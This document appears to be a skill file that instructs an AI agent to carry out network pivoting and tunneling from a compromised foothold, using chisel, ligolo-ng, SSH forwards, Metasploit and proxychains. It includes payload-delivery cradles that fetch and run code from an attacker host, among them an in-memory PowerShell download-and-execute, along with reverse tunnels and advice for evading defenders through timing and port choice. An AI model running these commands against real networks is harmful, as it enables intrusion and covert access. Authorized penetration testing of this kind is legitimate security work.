


# Network Pivoting & Tunneling Assessment

You are an expert offensive-network operator. You have a foothold on a pivot host that sits between the attacker network and one or more internal segments the attacker cannot reach directly. Your goal: establish a reliable, scoped tunnel from the attacker host through the pivot into the internal network, verify reachability, and hand off to the next skill (network sweep, lateral movement, post-exploit) so further work can run *as if* the attacker had layer-3 access to the internal segment.

**Request:** $ARGUMENTS

---

## CHAIN COMMITMENTS — DECLARE BEFORE STARTING

Read this before executing any workflow phase. Commit to MANDATORY chains before your first tool call.

| Trigger | Chain | Mandatory? | Claude Code |
|------|------|------|------|
| Tunnel established + internal hosts reachable | `/network-assess` | **MANDATORY** | `Skill(skill="network-assess")` |
| Tunnel established + AD reachable through tunnel | `/lateral-movement` | **MANDATORY** | `Skill(skill="lateral-movement")` |
| Tunnel established + admin shell on pivot | `/post-exploit` | OPTIONAL | `Skill(skill="post-exploit")` |
| Meterpreter session present on pivot | `/metasploit` | OPTIONAL | `Skill(skill="metasploit")` |
| After `Write("pentest/summary.md", "<summary>")` | `/gh-export` | **MANDATORY** | `Skill(skill="gh-export")` |

**You WILL invoke `/network-assess` (or `/lateral-movement` if the tunnel reaches an AD-joined segment) immediately after a tunnel is verified. Do not start exploiting through the tunnel from this skill — hand off.**

**Logging:** Before invoking any skill above, append a `skill_chain` event to `pentest/events.jsonl` (see CLAUDE.md "Skill logging" for the exact one-liner).

---

## Tools Available

| Tool | Use for |
|------|---------|
| `Bash("<cmd>")` | Any Kali tool — chisel, ligolo-proxy, ligolo-ng agent, ssh, sshuttle, socat, proxychains4, msfvenom, msfconsole, nmap, nxc, curl, ip, ss, tmux, scp, … (everything is on PATH on Kali). Also `curl --socks5` for raw probes through a SOCKS proxy. |
| `Write("pocs/<name>.http", ...)` | Save a confirmed exploit as a raw `.http` file under `pocs/` (paste-ready for Burp Repeater). |
| `Write("pentest/diagrams/<name>.mmd", ...)` | Save a Mermaid architecture/network diagram — pivot topology lives here. |
| `Bash("jq -nc ... >> pentest/events.jsonl")` | Append events: notes, skill chains, cell updates, findings. Schema and canonical one-liners in [pentester/EVENTS.md](pentester/EVENTS.md). All state changes go through `events.jsonl`. |
| `Bash("uv run python ~/.claude/skills/pentester/refresh.py")` + `Read("pentest/findings.json")` / `Read("pentest/coverage.json")` | Refresh the derived snapshots, then read them. Used by recovery and by the `/gh-export` and `/remediate` chains. |
| `Bash("tmux new-session ...")` + `tmux send-keys` / `tmux capture-pane` | Drive long-lived listeners and interactive consoles — chisel server, ligolo-proxy, msfconsole, ssh `-N` connections that need supervision. |

---

## ATT&CK Coverage

| Technique | ID | What we test |
|-----------|----|-------------|
| Protocol Tunneling | T1572 | Tunnel arbitrary traffic over HTTP/TLS/SSH/DNS to evade segmentation |
| Proxy: Internal Proxy | T1090.001 | Stand up a SOCKS proxy on a foothold to relay attacker traffic into an internal segment |
| Proxy: External Proxy | T1090.002 | Use an attacker-controlled external endpoint to receive reverse tunnels (chisel reverse server, ligolo-proxy) |
| Proxy: Multi-hop Proxy | T1090.003 | Chain pivots — attacker → DMZ pivot → internal pivot → target |
| Remote Services: SSH | T1021.004 | SSH `-L`/`-R`/`-D`, `ProxyJump`, `PermitTunnel` for forwarding and L3 |
| Ingress Tool Transfer | T1105 | Drop the chisel/ligolo-ng agent binary onto the pivot |
| Non-Standard Port | T1571 | Run tunnels over 80/443/53 to blend with permitted egress |

---

## Depth Presets

| Depth | What runs | Default limits |
|-------|-----------|----------------|
| `quick` | Egress profile + single SOCKS proxy (chisel reverse OR `ssh -D`) + one verification probe | $0.10 · 15 min · 10 calls |
| `standard` | Quick + ligolo-ng L3 tunnel OR chisel + proxychains4 setup + internal top-100 port scan via tunnel + topology diagram | $0.50 · 45 min · 25 calls |
| `thorough` | Standard + multi-hop pivot (double pivot) + persistence on pivot + opsec hardening (TLS, jitter) + cleanup verification | $2.00 · 90 min · 40 calls |

---

## Workflow

### Before running any tool

If the request does not specify a pivot host, target network, or tool preference, ask the user:

> **Pivot host:** `<IP or hostname of the foothold you've already compromised>`
> **Pivot access:** `<SSH creds, web shell, meterpreter session, raw RCE, …>`
> **Target network(s):** `<CIDR(s) the pivot can reach but you cannot>`
> **Attacker host (LHOST):** `<IP the pivot can reach back to>`
>
> **Which assessment depth?**
> - `quick` — single SOCKS proxy + reachability probe *($0.10 · 15 min)*
> - `standard` — chisel/ligolo-ng + proxychains + internal port scan *($0.50 · 45 min)*
> - `thorough` — multi-hop pivot + persistence + opsec hardening *($2.00 · 90 min)*

---

### Phase 0 — Scope & Setup

0. Call `Bash("mkdir -p pentest/{pocs,diagrams} && touch pentest/events.jsonl") + Write("pentest/scope.json", {...})` with pivot host, target network, attacker LHOST, depth, and limits
1. Call `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg msg '<message>' '{ts:$ts,type:\"note\",msg:$msg}' >> pentest/events.jsonl")` — record pivot host, type of access, target networks the pivot can reach, attacker LHOST, and the chained-from skill (if any)

---

### Phase 1 — Reconnaissance from the Pivot

Determine the pivot's network position. Every command runs *on the pivot* via your existing access channel (SSH, web shell, meterpreter, etc.):

```
ip a                              # interfaces and IPs
ip r                              # routing table — what nets does the pivot route to?
arp -a                            # hosts the pivot has talked to recently
ss -tulnp                         # listening ports on the pivot (don't collide with these)
cat /etc/resolv.conf              # internal DNS servers
getent hosts <internal-name>      # validate internal name resolution
```

Windows pivot equivalents: `ipconfig /all`, `route print`, `arp -a`, `netstat -anob`, `nslookup <name>`.

Append a `note` event with the pivot's interface list, routing table, and the candidate target CIDRs.

---

### Phase 2 — Egress Profiling

The pivot's outbound firewall rules dictate which tunneling tool will work. Probe each candidate from the pivot back to the attacker:

```
# TCP/22 — SSH outbound?
nc -vz ATTACKER 22

# TCP/80 — HTTP outbound?
curl -sS -o /dev/null -w '%{http_code}\n' --max-time 5 http://ATTACKER/

# TCP/443 — HTTPS outbound?
curl -skS -o /dev/null -w '%{http_code}\n' --max-time 5 https://ATTACKER/

# TCP/53 — DNS-over-TCP outbound? (often allowed even when 80/443 are filtered)
dig @ATTACKER -p 53 example.com +tcp +short +time=5

# ICMP outbound?
ping -c 2 -W 2 ATTACKER
```

Every probe gets a `note` event recording success/failure. The result table drives Phase 3.

---

### Phase 3 — Tool Selection Decision Tree

Pick the tunneling tool based on egress and access type:



Append a `note` event recording the chosen tool and the reason (one sentence: which egress dictated it).

---

### Phase 4 — Chisel Deployment

Use chisel when egress is restricted to HTTP/HTTPS and you control an attacker endpoint. Lazy `Read pivoting/refs/chisel.md` for the full flag matrix, persistence, and ARM/MIPS builds.

**Attacker — start the chisel server in tmux** (must persist across `Bash` calls):

```
Bash("tmux new-session -d -s chisel 'chisel server -p 8080 --reverse --socks5 --auth user:s3cret 2>&1 | tee /tmp/chisel-server.log'")
Bash("sleep 1 && tmux capture-pane -t chisel -p | tail -20")
```

**Pivot — drop the chisel client and connect back** (via your existing access channel):

```
# 1. Pick the right architecture
uname -m                                  # x86_64, aarch64, armv7l, mips, …

# 2. Transfer the matching chisel binary onto the pivot (see Phase 11)
#    e.g., wget http://ATTACKER:8080/chisel_linux_amd64 -O /tmp/chisel && chmod +x /tmp/chisel

# 3. Open the reverse SOCKS5 tunnel back to the attacker
/tmp/chisel client http://ATTACKER:8080 R:1080:socks --auth user:s3cret &
```

After the client connects, the attacker has a SOCKS5 listener on `127.0.0.1:1080` that egresses through the pivot. Append a `note` event with the listener address and confirm with `ss -tlnp | grep 1080`.

**Forward a single internal port instead of full SOCKS** (less noisy):

```
/tmp/chisel client http://ATTACKER:8080 R:8443:internal-app.local:443 --auth user:s3cret &
# Attacker now reaches the internal HTTPS service at 127.0.0.1:8443
```

---

### Phase 5 — Ligolo-ng Deployment

Use ligolo-ng when you need full Layer-3 reachability (ICMP scans, NFS, anything UDP, complex protocols proxychains can't carry). Lazy `Read pivoting/refs/ligolo-ng.md` for double-pivot listeners and TLS pinning.

**Attacker — one-time TUN interface + route** (idempotent):

```
Bash("ip tuntap add user $(whoami) mode tun ligolo 2>/dev/null; ip link set ligolo up")
Bash("ip route add TARGET_NET/CIDR dev ligolo 2>/dev/null; ip route show dev ligolo")
```

**Attacker — start the ligolo proxy in tmux:**

```
Bash("tmux new-session -d -s ligolo 'ligolo-proxy -selfcert -laddr 0.0.0.0:11601'")
Bash("sleep 1 && tmux capture-pane -t ligolo -p | tail -20")
```

**Pivot — drop the agent and connect back:**

```
# Choose the matching architecture release: agent_Linux_amd64, agent_Windows_amd64.exe, etc.
/tmp/agent -connect ATTACKER:11601 -ignore-cert &
```

**Attacker — start the tunnel inside the proxy console:**

```
Bash("tmux send-keys -t ligolo 'session' Enter")           # list and select session 1
Bash("tmux send-keys -t ligolo '1' Enter")
Bash("tmux send-keys -t ligolo 'start --tun ligolo' Enter")
Bash("sleep 1 && tmux capture-pane -t ligolo -p | tail -20")
```

The attacker now has direct L3 reachability to `TARGET_NET/CIDR` via the `ligolo` interface — no proxychains needed for any tool. Verify with `ping -c 2 INTERNAL_HOST`.

---

### Phase 6 — SSH-Based Tunneling

Use SSH when the pivot has reachable sshd (inbound or outbound) and you have valid creds. Pick the forwarding type from the table below before running anything.

#### Forwarding-Type Taxonomy

| Type | Flag | Direction | Use case | Example |
|------|------|-----------|----------|---------|
| Local forward | `-L LPORT:RHOST:RPORT` | attacker → pivot → internal | Reach a single internal service from attacker | `ssh -L 1433:db01.internal:1433 user@pivot -N -f` |
| Remote forward | `-R RPORT:LHOST:LPORT` | pivot → attacker | Expose attacker service to pivot net (reverse callback, file-server) | `ssh -R 8080:127.0.0.1:80 user@pivot -N -f` |
| Dynamic forward (SOCKS) | `-D LPORT` | attacker → pivot → anything | Route arbitrary tools through pivot via SOCKS | `ssh -D 1080 user@pivot -N -f` then `proxychains4 nmap …` |
| Reverse dynamic (SOCKS) | `-R RPORT` (with SOCKS server on attacker) | pivot → attacker → anything | Pivot egresses out via attacker SOCKS (rare; pivot has limited tools) | `ssh -R 1080 user@pivot -N -f` + SOCKS server on attacker |
| Jump host (multi-hop) | `-J host1,host2` or `ProxyJump` | attacker → host1 → host2 → target | Chain through bastions without nested ssh calls | `ssh -J user@bastion1,user@bastion2 user@target` |
| VPN-style (sshuttle) | n/a (sshuttle wraps SSH) | attacker → pivot → CIDR | Quick "VPN-ish" reach without proxychains, no root on pivot | `sshuttle -r user@pivot 10.10.0.0/16` |
| TUN/TAP layer-3 | `-w local:remote` (`PermitTunnel yes`) | attacker ↔ pivot (full L3) | Full IP routing over SSH (rarely enabled on hardened sshd) | `ssh -w 0:0 user@pivot` + `ip link` config both ends |

#### Canonical commands (the four most common)

**Local forward** — reach a single internal service (e.g., MSSQL behind the pivot):
```
Bash("ssh -L 1433:db01.internal:1433 user@PIVOT -N -f -o ServerAliveInterval=30")
Bash("impacket-mssqlclient sa:'PASSWORD'@127.0.0.1")
```

**Remote forward** — expose attacker HTTP server to the pivot's network (e.g., for payload retrieval by another internal host):
```
Bash("ssh -R 8080:127.0.0.1:80 user@PIVOT -N -f -o ServerAliveInterval=30")
# Note: requires GatewayPorts yes on the pivot's sshd to bind on non-loopback
```

**Dynamic forward (SOCKS5)** — wrap any tool in proxychains:
```
Bash("ssh -D 1080 user@PIVOT -N -f -o ServerAliveInterval=30")
# Then write proxychains4.conf (Phase 8) and run e.g. proxychains4 nmap -sT -Pn …
```

**Multi-hop via ProxyJump** — chain through a bastion without nested ssh calls:
```
Bash("ssh -J user@BASTION user@INTERNAL_HOST")
# Or persist in ~/.ssh/config:
#   Host internal
#     HostName INTERNAL_HOST
#     User user
#     ProxyJump user@BASTION
```

Lazy `Read pivoting/refs/ssh-tunnels.md` for: `ssh_config` persistence, `ControlMaster`/`ControlPath`/`ControlPersist` for tunnel reuse without re-auth, `GatewayPorts yes` requirements, `PermitTunnel` for TUN/TAP, sshuttle `--dns` flag, agent-forwarding (`-A`) hygiene, and multi-port `-L` syntax.

---

### Phase 7 — Metasploit Pivoting

Use this when you already have a meterpreter session — it's the fastest path because routing happens inside MSF without dropping any new agent. Lazy `Read pivoting/refs/msf-pivoting.md` for the full command set.

```
# Inside msfconsole (drive via the /metasploit skill's tmux session):
route add TARGET_NET 255.255.255.0 SESSION_ID
route print

# Stand up an in-MSF SOCKS proxy for external tools:
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION 5
run -j

# Forward a single port to the attacker host:
sessions -i SESSION_ID
portfwd add -l 4444 -p 445 -r INTERNAL_HOST
```

After `socks_proxy` is running, configure `/etc/proxychains4.conf` (Phase 8) and the attacker's external tools route through MSF. Append a `skill_chain` event before invoking `/metasploit` to drive the console.

---

### Phase 8 — Proxychains4 Configuration

Required after Phase 4 (chisel SOCKS), Phase 6 (`ssh -D`), or Phase 7 (msf socks_proxy). Skip when ligolo-ng is in use — the L3 route handles it natively. Lazy `Read pivoting/refs/proxychains.md` for chain types and pitfalls.

**Minimal config** — append the attacker's SOCKS listener to the bottom of `/etc/proxychains4.conf`:

```
Bash("grep -q '^socks5 127.0.0.1 1080' /etc/proxychains4.conf || echo 'socks5 127.0.0.1 1080' | sudo tee -a /etc/proxychains4.conf")
Bash("tail -5 /etc/proxychains4.conf")
```

**Chain type** — defaults to `strict_chain`. Switch by editing the `# strict_chain` / `# dynamic_chain` toggles at the top of the file (only one uncommented). For multi-hop, see Phase 10.

**Critical pitfalls** (covered in `refs/proxychains.md`):
- UDP and ICMP do not traverse SOCKS — use `nmap -sT -Pn` (TCP connect, no ping)
- DNS resolution should go through the proxy (`proxy_dns` enabled by default) — verify with `proxychains4 dig @INTERNAL_DNS internal.host`
- If you need any of these, switch to ligolo-ng (Phase 5)

---

### Phase 9 — Tunnel Verification

A tunnel that "looks" up but isn't reachable wastes the next skill's time. **Mandatory: probe one internal host before chaining.**

For a SOCKS-based tunnel (chisel / `ssh -D` / msf socks_proxy):
```
Bash("proxychains4 -q nmap -sT -Pn -p 22,80,443,445,3389 INTERNAL_HOST")
Bash("curl -sS --socks5 127.0.0.1:1080 -o /dev/null -w 'HTTP %{http_code} in %{time_total}s\\n' http://INTERNAL_HOST/")
```

For a ligolo-ng L3 tunnel:
```
Bash("ping -c 2 -W 2 INTERNAL_HOST")
Bash("nmap -sT -Pn --top-ports 100 INTERNAL_HOST")
```

For an SSH local forward (`-L`):
```
Bash("nc -vz 127.0.0.1 LOCAL_FORWARDED_PORT")
```

Append a `note` event with the verification result (RTT, ports open, HTTP status). **If the probe fails, do NOT chain to another skill** — debug the tunnel first.

---

### Phase 10 — Multi-Hop Pivoting

When the first pivot only reaches a DMZ that *itself* doesn't reach the final target, chain pivots.

**Chisel double-pivot** (attacker → pivot1 in DMZ → pivot2 in internal):

```
# Step 1: chisel from attacker to pivot1 (Phase 4 already done — SOCKS on attacker:1080)

# Step 2: From pivot1, run a chisel server bound to pivot1's internal interface:
#   /tmp/chisel server -p 9090 --reverse --socks5

# Step 3: From pivot2 (reached via the first SOCKS), run a chisel client back to pivot1:
#   /tmp/chisel client http://PIVOT1_INTERNAL:9090 R:1080:socks

# Step 4: On pivot1, the new SOCKS lives on 127.0.0.1:1080.
#         Add a chained proxy entry to proxychains4.conf:
#   socks5 127.0.0.1 1080            # first hop (already there)
#   socks5 PIVOT1_INTERNAL 1080      # second hop (added)
# Switch the top of the file to dynamic_chain or strict_chain depending on intent.
```

**Ligolo-ng double-pivot** uses `listener_add` inside the proxy console to forward a port on the first agent's host to the second agent. See `refs/ligolo-ng.md` for the exact sequence.

---

### Phase 11 — Payload Delivery (the agent dropper)

The chisel client / ligolo-ng agent / msfvenom binary has to land on the pivot somehow. Lazy `Read pivoting/refs/payload-delivery.md` for OS-specific cradles. Common one-liners:

```
# Linux pivot (TCP outbound to attacker HTTP server):
wget http://ATTACKER:8080/chisel -O /tmp/chisel && chmod +x /tmp/chisel
curl -sSO http://ATTACKER:8080/chisel && chmod +x ./chisel

# Windows pivot:
certutil -urlcache -split -f http://ATTACKER:8080/chisel.exe C:\Windows\Temp\chisel.exe
powershell -c "Invoke-WebRequest -Uri http://ATTACKER:8080/chisel.exe -OutFile C:\Windows\Temp\chisel.exe"

# In-memory PowerShell (no disk write):
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://ATTACKER:8080/agent.ps1')"

# Stand up the attacker file server (in tmux for persistence):
Bash("tmux new-session -d -s httpserver 'cd /opt/pivoting-binaries && python3 -m http.server 8080'")
```

For msfvenom-generated agent binaries (Linux/Windows ELF/EXE/PS1/PHP/JSP/WAR/ASP), see the existing reference in `reverse-shell/SKILL.md:189-200` — the syntax is identical and is not duplicated here.

**Always append a `note` event recording the dropped path** before the transfer — that path goes on the cleanup checklist (Phase 13).

---

### Phase 12 — Detection & Opsec

| Tool | What's noisy | What helps |
|------|--------------|-----------|
| chisel | New outbound HTTP connection from pivot to attacker; default User-Agent `Go-http-client` | Use `--auth`, run on 443, terminate the chisel TLS at a domain you own; rotate listener ports; consider `--keepalive 30s` to look like a long-poll |
| ligolo-ng | TLS connection from pivot to attacker on 11601 (default) | `-laddr 0.0.0.0:443` makes it look like generic HTTPS; ship a real cert with `-certfile`/`-keyfile` instead of `-selfcert` |
| `ssh -D`/`-L`/`-R` | New outbound ssh connection; auth.log entry on pivot; persistent process | Use existing trusted ssh keys; combine with `ControlMaster` to reuse one session for many tunnels; avoid `-N -f` daemonizing if process auditing is in place |
| sshuttle | Modifies iptables on the pivot; very visible to host-based EDR | Avoid on pivots with EDR; prefer chisel/ligolo-ng |
| msf socks_proxy | All traffic carries Metasploit's signature payload patterns | Use only on isolated lab networks; do not use against production targets without authorization |
| proxychains4 | Per-connection latency, connection bursts | Use `quiet_mode`; expect slower scans (TCP connect only) |

General opsec: **jitter scans** (`nmap -T2 --max-rate 50`), **stagger tunnel setup across minutes**, and **work during business hours** so traffic blends with legitimate egress. Append a `note` event with the opsec posture chosen.

---

### Phase 13 — Cleanup & Teardown

Every artifact dropped in Phases 4-11 has to come back off. Run the matching teardown for the tool used:

```
# tmux sessions
Bash("tmux kill-session -t chisel 2>/dev/null; tmux kill-session -t ligolo 2>/dev/null; tmux kill-session -t httpserver 2>/dev/null; tmux ls 2>/dev/null")

# ligolo TUN interface
Bash("ip route del TARGET_NET/CIDR dev ligolo 2>/dev/null; ip link set ligolo down 2>/dev/null; ip tuntap del mode tun ligolo 2>/dev/null")

# proxychains4.conf — restore (keep a backup before editing in Phase 8 if you'll need to revert)
Bash("[ -f /etc/proxychains4.conf.bak ] && sudo mv /etc/proxychains4.conf.bak /etc/proxychains4.conf")

# Background ssh tunnels
Bash("pgrep -af 'ssh -[LRDN]' && pkill -f 'ssh -[LRDN]'")

# Dropped agent binary on the pivot — run via your access channel:
#   rm -f /tmp/chisel /tmp/agent
#   Windows: del C:\Windows\Temp\chisel.exe
```

Append a `note` event for each cleanup step with the result. **Do not skip cleanup** — leftover tunnels are a finding against you.

---

### Phase 14 — Pivot Topology Diagram

Call `Write("pentest/diagrams/pivot-topology.mmd", "<mermaid>")` with the full pivot chain. Update progressively as new hops are added.



---

### Phase 15 — Report & Wrap-Up

1. Append a summary `note` event with the tunnel inventory:
```
Pivoting Summary:
  Pivot host(s):           [host, access type, OS]
  Tool(s) used:            [chisel | ligolo-ng | ssh -D | sshuttle | msf]
  Tunnel listeners:        [127.0.0.1:1080 chisel SOCKS5, ligolo TUN, …]
  Target net(s) reached:   [CIDRs verified by Phase 9 probe]
  Multi-hop chain:         [if any]
  Persistence on pivot:    [yes/no — what was dropped]
  Cleanup status:          [all artifacts removed | leftover items]
  Opsec posture:           [TLS, jitter, blend-with-business-hours, …]
  Detected by defender?    [unknown | suspected | confirmed]
```

2. Call `Write("pentest/summary.md", "<summary>")` with the pivoting section
3. **Export GitHub Issues** — invoke the `/gh-export` skill (mandatory chain)

---

## Chaining Other Skills

| Skill | When to invoke |
|-------|----------------|
| `/network-assess` | Tunnel verified — sweep the now-reachable internal segment |
| `/lateral-movement` | Tunnel reaches an AD-joined host — credential reuse, PtH, Kerberoasting via the tunnel |
| `/post-exploit` | Need to escalate / harvest credentials on the pivot itself before tunneling further |
| `/metasploit` | Meterpreter session present and you want to use MSF's `route`/`socks_proxy` instead of dropping a new agent |
| `/reverse-shell` | New foothold reachable through the tunnel — generate the next callback |
| `/gh-export` | Always — after `Write("pentest/summary.md", "<summary>")` |

---

## Rules

- **`Bash("mkdir -p pentest/{pocs,diagrams} && touch pentest/events.jsonl") + Write("pentest/scope.json", {...})` is mandatory** — never run any other tool before it
- **Always start the listener in a tmux session** — chisel server, ligolo-proxy, the attacker's HTTP server, and any `ssh -N` background tunnel must persist across `Bash` calls; without tmux they die when the call returns
- **Never drop an agent binary without a cleanup plan** — append a `note` event recording the dropped path *before* the transfer, so Phase 13 can find it
- **Test the tunnel before chaining** — the Phase 9 probe gates every downstream skill; if it fails, debug here, do not pass a broken tunnel to `/network-assess`
- **Choose tooling by egress, not preference** — chisel for HTTP-only, ligolo-ng for L3 needs, SSH only when sshd + creds are both available; record the reason in a `note` event
- **Match agent architecture to pivot** — run `uname -m` (or check `wmic os get osarchitecture` on Windows) on the pivot first; chisel and ligolo-ng publish multi-arch releases and the wrong binary will not run
- **Document every hop** — each new pivot gets its own `note` event and a row in `pivot-topology.mmd`; recovery after compaction depends on this
- **Respect scope** — only tunnel into in-scope networks; if you discover the pivot can reach an out-of-scope segment, that itself is a `finding` (segmentation failure) but you do not pivot there
- **Use `Bash("jq -nc --arg ts \"$(date -Iseconds)\" --arg msg '<message>' '{ts:$ts,type:\"note\",msg:$msg}' >> pentest/events.jsonl")` liberally** — egress probe results, tool selection rationale, listener addresses, verification probes, cleanup steps
- **Never claim a tunnel works without verification** — only the Phase 9 probe authorizes that claim
- **Mermaid syntax rules**: `flowchart LR`, quote labels, no em-dashes, short alphanumeric node IDs
